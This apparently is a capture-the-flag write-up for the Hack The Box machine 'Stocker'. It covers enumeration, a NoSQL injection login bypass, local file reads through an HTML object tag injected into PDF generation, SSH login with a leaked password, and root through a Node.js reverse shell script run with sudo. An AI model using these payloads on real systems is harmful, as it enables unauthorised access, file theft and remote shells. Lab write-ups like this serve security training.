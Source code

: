 # HTB Machine Stocker


we atart with nmap scan:
```Shell
┌──(Jack㉿Sparrow)-[~/Downloads/htb/stocker]
└─$ sudo nmap -sS -sC -T5 10.10.11.196 -oN nmap.txt
[sudo] password for Jack: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-30 02:18 EDT
Nmap scan report for 10.10.11.196
Host is up (0.68s latency).
Not shown: 938 closed tcp ports (reset), 60 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://stocker.htb

Nmap done: 1 IP address (1 host up) scanned in 29.93 seconds                                                           
```

we have 2 ports open: 22(ssh) , 80(http)

add `stocker.htb` to `/etc/hosts` file

visiting this page we see one comment from `Angoose Garden, Head of IT at Stockers Ltd.`

next we try to bruteforce subdomains:
```Shell
┌──(Jack㉿Sparrow)-[~]
└─$ gobuster vhost -u stocker.htb -w /usr/share/wordlists/dirb/common.txt  --append-domain  -t 100
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         100
[+] Wordlist:        /usr/share/wordlists/dirb/common.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/03/30 02:44:46 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/03/30 02:45:04 Finished
===============================================================
```

again we need to add `dev.stocker.htb` to `/etc/hosts` file

after few try and errors we found that login page is vulnerable to NoSQL Injection.

`Content-Type: application/json`

Payload: `{"username": {"$ne": null}, "password": {"$ne": null}}`

here we can purchase something through api and on view order it will generate pdf or that order.

we can try to Read local file.

Path:`api/order` 
Payload:
```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<object data='file:///etc/passwd'>","description":"It's a red cup.","image":"/etc/passwd","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
response:
```Json
{"success":true,"orderId":"642550c92e188ca84f0a3f46"}
```

we can see generated PDF at `/api/po/642550c92e188ca84f0a3f46`

<img width="498" alt="image" src="https://user-images.githubusercontent.com/79740895/228787287-27642032-742a-400f-9b1d-e7814137d623.png">

it is not complete we can modify our payload to:
```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<object data='file:///var/www/dev/index.js' height=800 width=800>","description":"It's a red cup.","image":"Yo","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
result:

<img width="324" alt="image" src="https://user-images.githubusercontent.com/79740895/228790867-552de9df-6da5-4534-a6da-f457149e974b.png">

we found Password: `IHeardPassphrasesArePrettySecure`

previously we show one comment from Angoose Garden, Head of IT at Stockers Ltd.

we can try this username:`Angoose` and password on ssh.


<img width="228" alt="image" src="https://user-images.githubusercontent.com/79740895/228792401-92e175e9-5868-4f29-9276-513a2303d220.png">

chech root Permission using `sudo -l`

```Shell
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Sorry, try again.
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

we can escalate our privilege with node 

Payload:
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(8888, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

Reference: https://www.revshells.com/

<img width="343" alt="image" src="https://user-images.githubusercontent.com/79740895/228799823-4734593e-c124-4224-ba63-a028a4618805.png">

<img width="200" alt="image" src="https://user-images.githubusercontent.com/79740895/228798809-70c77d3a-894a-4cb9-80fc-49fb48994544.png">

Now we are root.





:octocat: Happy Hacking :octocat:
